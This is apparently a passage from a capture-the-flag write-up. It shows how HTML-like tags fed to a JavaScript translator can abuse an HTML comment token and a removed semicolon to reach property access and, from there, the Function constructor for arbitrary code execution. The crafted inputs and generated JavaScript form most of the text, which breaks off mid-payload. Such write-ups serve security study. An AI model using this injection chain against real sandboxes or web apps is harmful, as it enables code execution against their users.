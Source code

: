 The final semicolon will be removed, so it can be combined with the `[]` in the next line to become an attribute access, like this:

```html
<x-program>
    <x-const>
        <x-identifier>a</x-identifier>
        <x-lt>
            <x-str>x</x-str>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>toString</x-str>
    </x-array>
</x-program>
```

will be translated into:

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);

const $a$="x"<!--$asd$;
["toString"];
```

which is `const $a$="x"["toString"]`

It's easy once you get here, just continue to get the function constructor and then call it, like this:

``` html
<x-program>

    <x-const>
        <x-identifier>a</x-identifier>
        <x-lt>
            <x-str>x</x-str>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>toString</x-str>
    </x-array>

    <x-const>
        <x-identifier>b</x-identifier>
        <x-lt>
            <x-identifier>a</x-identifier>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>constructor</x-str>
    </x-array>

```